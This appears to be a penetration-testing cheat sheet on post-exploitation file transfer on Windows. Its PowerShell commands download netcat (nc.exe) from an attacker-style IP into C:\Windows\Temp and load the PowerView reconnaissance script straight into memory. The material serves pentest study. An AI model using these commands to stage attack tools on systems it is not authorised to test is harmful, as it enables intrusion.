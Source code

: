 


























## Windows

- <https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/>
- <https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65>


### PowerShell

Valid PowerShell cmdlets/methods that can be used to download files:
- Invoke-WebRequest
- Start-BitsTransfer
- system.Net.WebClient
- Invoke-RestMethod



```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```


- `Invoke-WebRequest` (In Powershell `curl` is an alias for this command)
```
# get a website content, save it as xx.html (iwr is alias of Invoke-WebRequest)
iwr "google.com" -outfile xx.html


$url = "http://192.168.1.10/example.txt"
$destination = "C:\Downloads\example.txt"
Invoke-WebRequest -Uri $url -OutFile $destination

# Download using PowerShell's WebClient object
(new-object System.Net.WebClient).DownloadFile('http://[IP]/file.txt','dest/path/file.txt')
```

Fetch script from a webserver and load into memory
```
$pwv = (new-object System.Net.WebClient).DownloadString('http://[IP]/PowerView.ps1)
```

